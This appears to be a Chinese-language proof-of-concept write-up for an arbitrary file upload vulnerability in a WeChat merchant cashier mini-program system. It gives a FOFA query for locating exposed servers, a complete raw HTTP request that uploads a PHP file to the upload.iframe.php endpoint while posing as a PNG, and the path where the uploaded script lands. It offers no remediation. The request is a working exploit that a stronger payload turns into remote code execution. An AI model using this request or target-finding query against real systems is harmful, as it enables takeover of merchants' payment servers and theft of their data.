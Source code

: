 # 微信公众号商家收银台小程序系统存在任意文件上传漏洞

# 一、漏洞简介
微信公众号商家收银台小程序系统支持创建多个店铺，各个店铺自定义不同自定义表单。通过自定义表单实现订单自定义明细通过店铺自定义表单可以轻松建立，快捷收款、微信收银台、面对面收款、商品预约预订等扫码微信支付， 提升客户服务体验，商户快速获得精准订单数据，实现账款统计。通过打开自定义的表单页面，输入自定义的指定信息，可以实现订单收款。微信公众号商家收银台小程序系统存在任意文件上传漏洞

# 二、影响版本
+ 微信公众号商家收银台小程序系统

# 三、资产测绘
+ fofa`"/index.php?s=platform/index/captcha"`
+ 特征

![1731657982176-e98cf239-3363-4fda-acae-1352213c1ab1.png](./img/AtWHBbxuCPyxXRL2/1731657982176-e98cf239-3363-4fda-acae-1352213c1ab1-534279.png)

# 四、漏洞复现
```java
POST /library/deep/upload.iframe.php?action=add&MaxSize=&FileType=php&savePath=&backIdName=&saveName=0 HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywb0ftWeTnkfnoTM2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close

------WebKitFormBoundarywb0ftWeTnkfnoTM2
Content-Disposition: form-data; name="uploadFileName"; filename="666.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundarywb0ftWeTnkfnoTM2--
```

![1731658001998-f0527e68-1902-40db-929e-663a87bcc843.png](./img/AtWHBbxuCPyxXRL2/1731658001998-f0527e68-1902-40db-929e-663a87bcc843-175902.png)

```java
data/uploadfile//20241115155925921.php
```

![1731658141195-9405c9d5-ac3c-455b-a5a9-5508648a8138.png](./img/AtWHBbxuCPyxXRL2/1731658141195-9405c9d5-ac3c-455b-a5a9-5508648a8138-423896.png)



> 更新: 2024-11-27 10:00:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hbg0ot1kcqatcxhr>
